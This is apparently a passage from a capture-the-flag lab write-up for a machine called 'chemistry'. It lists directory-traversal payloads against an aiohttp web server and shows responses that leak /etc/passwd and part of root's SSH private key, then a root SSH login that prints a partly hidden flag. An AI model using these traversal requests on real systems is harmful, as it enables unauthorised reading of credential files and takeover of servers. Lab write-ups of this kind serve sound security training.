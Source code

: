 
```
payloads

../
../../
../../../
../../../../
../../../../../
../../../../../../
../../../../../../../
```

And once you find the right amount of traversal the **/etc/passwd** can be read.

```
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Etag: "17fd638c3d6090a6-7c0"
Last-Modified: Fri, 11 Oct 2024 11:48:06 GMT
Content-Length: 1984
Accept-Ranges: bytes
Date: Sun, 20 Oct 2024 04:05:49 GMT
Server: Python/3.9 aiohttp/3.9.1

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
--[snip]--
```

Modify the request to `GET /assets/../../../../../root/.ssh/id_rsa` and read the SSH key to pwn the machine. 

```
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Etag: "17d9a4c79c30680c-a2a"
Last-Modified: Mon, 17 Jun 2024 00:58:31 GMT
Content-Length: 2602
Accept-Ranges: bytes
Date: Sun, 20 Oct 2024 04:08:59 GMT
Server: Python/3.9 aiohttp/3.9.1

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAsFbYzGxskgZ6YM1LOUJsjU66WHi8Y2ZFQcM3G8VjO+NHKK8P0hIU
--[snip]--
```

```bash
ssh root@10.129.29.110 -i root_rsa 

root@chemistry:~# cat root.txt
7dc91130------------------------
```


